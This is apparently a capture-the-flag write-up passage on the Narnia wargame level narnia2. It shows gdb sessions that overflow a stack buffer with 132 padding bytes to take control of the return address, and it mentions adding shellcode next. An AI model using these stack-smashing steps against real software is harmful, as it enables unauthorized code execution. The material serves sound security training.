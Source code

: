 set breakpoint at end `+82` , `(gdb) break *main+82` , `Breakpoint 1 at 0x80491d8`

```assembly
(gdb) r $(python3 -c "print(131*'B')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python3 -c "print(131*'B')")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d8 in main ()

# agin exmaine for 131
(gdb) x/-20w $esp
0xffffd26c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd27c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd28c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd29c:	0x42424242	0x42424242	0x42424242	0x42424242
0xffffd2ac:	0x42424242	0x42424242	0x42424242	0x00424242
```

you can choose which ever word size the point is to find the those input characters hex values in memory

```
#examining $esp
(gdb) x/wx $esp
0xffffd2bc:	0xf7da1cb9

(gdb) x 0xf7da1cb9
0xf7da1cb9 <__libc_start_call_main+121>:	0x8310c483
# this return for narnia2 main function
# let overwrite this return address something precitable 

(gdb) r $(python3 -c "print(132*'B'+'AAAA')")
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

# we could overwrite that return address , and before add some exploit before that return address let search some shellcode in order to exploit
```

add additional 4 char after kind of `nop` values  (NO OPERATION) this refers dummy padding values

```
(gdb) r $(python3 -c "print(132*'B'+'AAAA')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia2 $(python3 -c "print(132*'B'+'AAAA')")
Download failed: Permission denied.  Continuing without separate debug info for system-supplied DSO at 0xf7fc7000.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, 0x080491d8 in main ()
(gdb)
```
